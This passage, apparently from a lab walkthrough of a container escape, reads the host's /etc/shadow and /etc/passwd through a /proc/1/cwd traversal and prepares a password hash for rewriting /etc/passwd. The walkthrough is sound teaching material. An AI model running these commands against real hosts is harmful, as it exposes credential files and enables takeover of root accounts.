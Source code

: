 

Reading system files


Two of the important system files in Linux systems are /etc/passwd and /etc/shadow.

Let's try to read the /etc/shadow file from the host system (the Kali machine):


```
root@90c4baf8b91f:.# cat /proc/1/cwd/../../../../../../../../etc/shadow
job-working-directory: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
root:*:19691:0:99999:7:::
daemon:*:19691:0:99999:7:::
bin:*:19691:0:99999:7:::
sys:*:19691:0:99999:7:::
sync:*:19691:0:99999:7:::
games:*:19691:0:99999:7:::
man:*:19691:0:99999:7:::
lp:*:19691:0:99999:7:::
mail:*:19691:0:99999:7:::
news:*:19691:0:99999:7:::
uucp:*:19691:0:99999:7:::
proxy:*:19691:0:99999:7:::
www-data:*:19691:0:99999:7:::
...
_gvm:!:19691::::::
kali:$y$j9T$gl--REDACTED--7ND:19691:0:99999:7:::
uuidd:!:19724::::::
```

Note: The password for the kali user in the above output has been redacted.



The following screenshot shows the same results as above:



Modifying system files


Now that we have established that we can read arbitrary files from the underlying host machine, let's take this a step further and let's modify the /etc/passwd file.



Before doing that, on the Kali machine, run the following command to generate a hashed password - passwd, to be stored in the /etc/passwd file via this vulnerability we have been exploring.



kali@kali:~$ openssl passwd -6 -salt wow passwd            
$6$wow$ANbY2P/OCVnraBHDL9W2Pc1rS3mV9K9fwC8yQaj6KlP.F0Nrhgg05HXyP2V.ZhdXDeLCcSwc4dy8c27qwQlb40


Next, check the contents for the /etc/passwd file for the underlying host from the container:

root@90c4baf8b91f:.# cat /proc/1/cwd/../../../../../../../../etc/passwd
job-working-directory: error retrieving current directory: getcwd: cannot access parent directories: No such file or directory
root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
...